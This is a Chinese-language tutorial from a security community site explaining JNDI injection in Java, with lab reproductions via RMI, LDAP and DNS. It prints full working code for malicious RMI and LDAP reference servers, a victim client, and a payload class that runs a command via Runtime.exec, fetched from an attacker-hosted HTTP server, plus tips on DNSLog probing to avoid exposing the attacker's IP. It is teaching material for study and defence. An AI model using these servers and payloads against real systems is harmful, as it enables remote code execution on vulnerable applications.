










# JNDI注入原理及利用考究 - 先知社区

## 一、前言

本篇文章作为 JNDI 注入学习的第一篇，主要了解其基本的原理及其利用，方便后续针对 JNDI 注入的学习，篇幅不长。

## 二、JNDI 简介

JNDI(Java Naming and Directory Interface)是一个应用程序设计的 API，一种标准的 Java 命名系统接口。JNDI 提供统一的客户端 API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将 JNDI API 映射为特定的命名服务和目录系统，使得 Java 应用程序可以和这些命名服务和目录服务之间进行交互。

上面较官方说法，通俗的说就是若程序定义了 JDNI 中的接口，则就可以通过该接口 API 访问系统的 `命令服务`和`目录服务`,如下图。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194119-24a1affa-bda6-1.png)

本篇文章主要探究 LADP、RMI、DNS 协议。

| 协议  | 作用  |
| --- | --- |
| LDAP | 轻量级目录访问协议，约定了 Client 与 Server 之间的信息交互格式、使用的端口号、认证方式等内容 |
| RMI | JAVA 远程方法协议，该协议用于远程调用应用程序编程接口，使客户机上运行的程序可以调用远程服务器上的对象 |
| DNS | 域名服务 |
| CORBA | 公共对象请求代理体系结构 |

## 三、JNDI注入

JNDI 注入，即当开发者在定义 `JNDI` 接口初始化时，`lookup()` 方法的参数可控，攻击者就可以将恶意的 `url` 传入参数远程加载恶意载荷，造成注入攻击。

**代码示例：**

代码中定义了 `uri` 变量，`uri` 变量可控，并定义了一个 `rmi` 协议服务， `rmi://127.0.0.1:1099/Exploit` 为攻击者控制的链接，最后使用 `lookup()` 函数进行远程获取 `Exploit` 类（Exploit 类名为攻击者定义，不唯一），并执行它

```plain
package com.rmi.demo;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class jndi {
    public static void main(String[] args) throws NamingException {
        String uri = "rmi://127.0.0.1:1099/Exploit";    // 指定查找的 uri 变量
        InitialContext initialContext = new InitialContext();// 得到初始目录环境的一个引用
        initialContext.lookup(uri); // 获取指定的远程对象

    }
}
```

具体攻击流程图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194150-37535482-bda6-1.png)

JNDI 注入对 JAVA 版本有相应的限制，具体可利用版本如下：

| 协议  | JDK6 | JDK7 | JDK8 | JDK11 |
| --- | --- | --- | --- | --- |
| LADP | 6u211以下 | 7u201以下 | 8u191以下 | 11.0.1以下 |
| RMI | 6u132以下 | 7u122以下 | 8u113以下 | 无   |

## 四、JNDI 注入复现

### JNDI+RMI

#### 环境搭建

使用 IDEA 进行复现，这边使用的 JDK 版本为 Linux 版本的 [JDK 7u79](https://www.oracle.com/java/technologies/javase/javase7-archive-downloads.html#license-lightbox) ， [Windows 版本下载](https://www.oracle.com/java/technologies/javase/javase7-archive-downloads.html#license-lightbox)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194222-49ecf454-bda6-1.png)  
1、首先 IDEA 新建一个项目

File-》New-》Project-》Maven-》Project SDK（选择 JDK 版本）-》Next-》填写项目名称-》Finish  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194256-5eb246c8-bda6-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194306-64a9914e-bda6-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194317-6ac3f128-bda6-1.png)

2、在 `/src/java` 目录下创建一个包，包名自定义，我这边为 `jndi_rmi_injection`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194427-94c3b99a-bda6-1.png)

3、在创建的包下新建 `rmi` 服务端和客户端  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194436-9a221242-bda6-1.png)

服务端（RMIService.java）代码

```plain
package jndi_rmi_injection;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.naming.Reference;
import com.sun.jndi.rmi.registry.ReferenceWrapper;

public class RMIServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(7778);
        Reference reference = new Reference("Calculator","Calculator","http://127.0.0.1:8081/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("RCE",wrapper);
    }

}
```

客户端（RMIClient.java）代码，客户端也是受害端

```plain
package jndi_rmi_injection;

import javax.naming.InitialContext;
import javax.naming.NamingException;
public class RMIClient {
    public static void main(String[] args) throws NamingException{
        String uri = "rmi://127.0.0.1:7778/RCE";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```

HTTP 端恶意载荷（Calculator.java）代码

笔者使用的是 ubuntu 的环境，执行弹出计算器的命令为 `gnome-calculator`,若为Windwos 修改为 `calc` 即可

```plain
public class Calculator {
    public Calculator() throws Exception {
        Runtime.getRuntime().exec("gnome-calculator");
    }
}
```

#### 启动服务

1、将 HTTP 端恶意载荷 Calculator.java，编译成 Calculator.class 文件

```plain
javac Calculator.java
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194457-a6920942-bda6-1.png)

2、在 Calculator.class 目录下利用 Python 起一个临时的 WEB 服务放置恶意载荷,这里的端口必须要与 RMIServer.java 的 Reference 里面的链接端口一致  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194511-aef8cb66-bda6-1.png)

python3 -m http.server 8081  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194526-b79a5906-bda6-1.png)

3、IDEA 将漏洞环境启动起来并实现攻击，顺序为先运行服务端，再起客户端  
服务端  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194648-e86e0e6a-bda6-1.png)  
再点击运行客户端，远程获取恶意类，并执行恶意类代码，实现弹窗  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194706-f37e3ac8-bda6-1.png)

### JNDI+LDAP

#### 环境搭建

环境使用上面的即可，但要先本地导入依赖，`maven` 无法拉取 `unboundid` 这个依赖，这一步卡了一段时间，坑点之一

1、点击下载 [unboundid-ldapsdk-3.2.0.jar](https://repo.maven.apache.org/maven2/com/unboundid/unboundid-ldapsdk/3.2.0/unboundid-ldapsdk-3.2.0.jar)，导入依赖即可，本环境在跟目录下创建了 `/lib` 目录用于放置本地依赖  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194721-fcac97fc-bda6-1.png)

2、LDAPServer.java 服务端代码

```plain
package jndi_ldap_injection;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:8081/#Calculator";
        int port = 1234;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

3、客户端（LDAPClient.java）代码， 也是受害端

```plain
package jndi_ldap_injection;

import javax.naming.InitialContext;
import javax.naming.NamingException;


public class LDAPClient {
    public static void main(String[] args) throws NamingException{
        String url = "ldap://127.0.0.1:1234/Calculator";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }

}
```

4、HTTP 端恶意载荷（Calculator.java）代码

```plain
public class Calculator {
    public Calculator() throws Exception {
        Runtime.getRuntime().exec("gnome-calculator");
    }
}
```

#### 启动服务

1、将 HTTP 端恶意载荷 Calculator.java，编译成 Calculator.class 文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194745-0a67f242-bda7-1.png)

2、在 Calculator.class 目录下利用 Python 起一个临时的 WEB 服务放置恶意载荷,这里的端口必须要与 LDAPServer.java 的 Reference 里面的链接端口一致  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194800-13b89bf8-bda7-1.png)

python3 -m http.server 8081  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194836-291be158-bda7-1.png)

3、IDEA 将漏洞环境启动起来并实现弹窗，顺序为先其服务端，再起客户端  
服务端  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194853-331179d4-bda7-1.png)

再点击运行客户端，实现弹窗  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308194909-3cb86e52-bda7-1.png)

### DNS协议

通过上面我们可知 `JNDI` 注入可以利用 `RMI` 协议和`LDAP` 协议搭建服务然后执行命令，但有个不好的点就是会暴露自己的服务器 `IP` 。在没有确定存在漏洞前，直接在直接服务器上使用 `RMI` 或者 `LDAP` 去执行命令，通过日志可分析得到攻击者的服务器 `IP`，这样在没有获取成果的前提下还暴露了自己的服务器 `IP`，得不偿失。 我们可以使用`DNS` 协议进行探测，通过 `DNS` 协议去探测是否真的存在漏洞，再去利用 `RMI` 或者 `LDAP` 去执行命令，避免过早暴露服务器 `IP`，这也是平常大多数人习惯使用 `DNSLog` 探测的原因之一，同样的 `ldap` 和 `rmi` 也可以使用 `DNSLog` 平台去探测。

#### 环境搭建

使用上面任一环境即可，只需要客户端，不需要服务器去起其它协议服务。  
漏洞端代码

```plain
package jndi_ldap_injection;

import javax.naming.InitialContext;
import javax.naming.NamingException;


public class LDAPClient {
    public static void main(String[] args) throws NamingException{
        String url = "dns://192rzl.dnslog.cn";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }

}
```

#### 启动服务

填入 `DNSLog` 平台域名，或自己搭建的平台域名，执行程序  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230310145440-6e356c18-bf10-1.png)

`DNSLog` 平台返回记录，证明漏洞存在  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230310145500-7a13f0d6-bf10-1.png)

## 五、扩展

### InitialContext类

由 `JNDI+RMI` 漏洞代码进行分析

```plain
package jndi_rmi_injection;

import javax.naming.InitialContext;
import javax.naming.NamingException;
public class RMIClient {
    public static void main(String[] args) throws NamingException{
        String uri = "rmi://127.0.0.1:7778/RCE";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```

`InitialContext` 类用于读取 JNDI 的一些配置信息，内含对象和其在 JNDI 中的注册名称的映射信息

```plain
InitialContext initialContext = new InitialContext(); // 初始化上下文,获取初始目录环境的一个引用
```

`lookup(String name)` 获取 name 的数据，这里的 uri 被定义为 `rmi://127.0.0.1:7778/RCE` 所以会通过 `rmi` 协议访问 `127.0.0.1:7778/RCE`

```plain
String uri = "rmi://127.0.0.1:7778/RCE";
initialContext.lookup(uri); //利用lookup() 函数获取指定的远程对象
```

由于 `lookup()` 参数可控，导致漏洞的出现，跟进代码如下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230308195133-92724c50-bda7-1.png)

### Reference 类

Reference 是一个抽象类，每个 Reference 都有一个指向的对象，对象指定类会被加载并实例化。  
由 `JNDI+RMI` 服务端攻击代码

```plain
package jndi_rmi_injection;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.naming.Reference;
import com.sun.jndi.rmi.registry.ReferenceWrapper;

public class RMIServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(7778);
        Reference reference = new Reference("Calculator","Calculator","http://127.0.0.1:8081/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("RCE",wrapper);
    }

}
```

reference 指定了一个 Calculator 类，于远程的 `http://127.0.0.1:8081/` 服务端上，等待客户端的调用并实例化执行。

```plain
Reference reference = new Reference("Calculator","Calculator","http://127.0.0.1:8081/");
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230308195153-9e3c2c0e-bda7-1.png)

## 六、总结

经过上面的分析，归纳总结为由于 `lookup()` 的参数可控，攻击者在远程服务器上构造恶意的 `Reference` 类绑定在 `RMIServer` 的 `Registry` 里面，然后客户端调用 `lookup()` 函数里面的对象，远程类获取到 `Reference` 对象，客户端接收 `Reference` 对象后，寻找 `Reference` 中指定的类，若查找不到，则会在 `Reference` 中指定的远程地址去进行请求，请求到远程的类后会在本地进行执行，从而达到 `JNDI` 注入攻击。

## 七、参考文章

```plain
https://www.javasec.org/javase/JNDI/
https://docs.oracle.com/javase/tutorial/jndi/overview/
https://xz.aliyun.com/t/6633
https://www.cnblogs.com/nice0e3/p/13958047.html
https://blog.csdn.net/qq_38626043/article/details/129256939
```